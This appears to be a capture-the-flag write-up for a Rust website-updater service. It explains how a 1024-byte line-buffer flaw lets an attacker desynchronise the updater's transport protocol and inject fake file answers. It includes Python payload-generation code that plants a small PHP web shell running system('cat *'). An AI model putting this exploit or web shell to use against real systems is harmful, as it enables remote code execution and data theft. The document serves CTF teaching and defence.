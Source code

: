 # The Startup Service

The service is an engine for updating the content of dynamic website. The content can be download from any untrusted mirror-like site, but its authencity is checked using Ed25519 digital signature scheme.

The service is written in Rust. The site that updated is a usual PHP site.

There are two main parts in the updater:

1. The client handler that gets a manifest and its signature from the client, creates a task, downloads files and checks its signatures. The manifest is a json-data, that describes files and their hashsums. 
The example of manifest:
```
{
    "links": [
        {"url": "http://mirror/wyjzmw.php", "checksum": "32bfce7a147d2fb0c87ff234c2848a37"},
        {"url": "http://mirror/JhXY.php", "checksum": "d55ec508be338092ab591f3d7e4ab929"}
    ]
}
```

2. Transport handlers that download a file, compute hashsums and send that data to the client handler. Supported transports are HTTP and HTTP/2. The handlers are launched by the client handler as programs, the communication between them is done by using standard I/O streams: stdin and stdout.

## The Protocol Between the Client Handler and the Transport Handler ##

1. The client handler sends an url to download as a line to stdin of transport handler.
2. The transport handler gets the data and sends an about it to the stdout in the following format:
```
Url: http://<url>
Success: [true or false]
Hashsum: <hashsum>
Content-Length: <integer>
<data>
```
3. Go to step 1.

On the program level the updater communicates with the transport handler using the AsyncBufferedReadStream class. It has methods *read_line()* and *read(n)* to get next line and next data chunk. Also it mantains an internal buffer of length 1024 to store the extra data readed from the socket.

# The Vulnerability #

The *read_line()* can never return the data that is bigger than buffer. If the line is longer then 1024 bytes, the first 1024 bytes are returned as single line, but the rest of the data is returned as another line. Moreover, if the several lines are read with a single syscall, the last line can be truncated. That can be used to unsynchronize the protocol and inject false answers to the client handler request that contains arbitrary data with arbitrary checksums.

This allows to make the client hadler save the PHP-file with content provided by attacker, effectively giving an RCE.

# The Exploitation #

It is supposed that the attacker has a manifest and knows the digital signature of some innocent data. Both can be obtained from the checker using a sniffer

To exploit the vulnerability the attacker needs a way to inject long strings to the protocol. It controls the URL host part and data. The one way how it can be done is to provide the hostname into the following format: <host>:<000000><port>, where <000000> is arbitrary number of "0" characters. That port will be interpreted as usual number.

Here is a code to generate the payload, that should be send as an answer on HTTP or HTTP/2 request:

```python
MYIP = "10.60.30.1"
MYPORT = "0" * (921-len(MYIP)) + "4000"

FAKE_PHP = br"""<?php if($_GET["key"]=="KnfSM")system("cat *")?>"""

PAYLOAD = b"""AAAAAA
Url: http://%s:%s/JhXY.php
Success: true
Hashsum: d55ec508be338092ab591f3d7e4ab929\n\n\n\n\n\n\n\n\n\n
Content-Length: %d
%s""" % (MYIP.encode(), MYPORT.encode(), len(FAKE_PHP), FAKE_PHP)

ANS = b"""HTTP/1.1 200 OK
Content-Length: %d

%s?>""" % (len(PAYLOAD), PAYLOAD)
```

###How it works?###

On the first request this answer is passed from the transport handler to the client handler:

```
Url: http://10.60.30.1:000000...04000/somename.php
Success: true
Hashsum: d55ec508be338092ab591f3d7e4ab929
Content-Length: 1000
<data>
```

The client client handler interprets it as

```
Url: http://10.60.30.1:000000...04000/somename.php
Success: true
Hashsum: d55ec508be338092ab591f3d7e4ab929
Content-Length: 10
00
<data>
```

So the first two zeroes and few first bytes of data are interpreted as an answer on first request. So the further data will be interpreted by client handler as the next request answer. The attacker is injecting fake hashsum and fake data there:

```
Url: http://%s:%s/JhXY.php
Success: true
Hashsum: d55ec508be338092ab591f3d7e4ab929
Content-Length: <len>
<?php if($_GET["key"]=="KnfSM")system("cat *")?>
```

The full sploit can be found at [/exploits/startup/startup_sploit.py](../exploits/startup/startup_sploit.py).

**The fix.** To fix the vuln the buffering algorithm should be modified to work with longer strings.

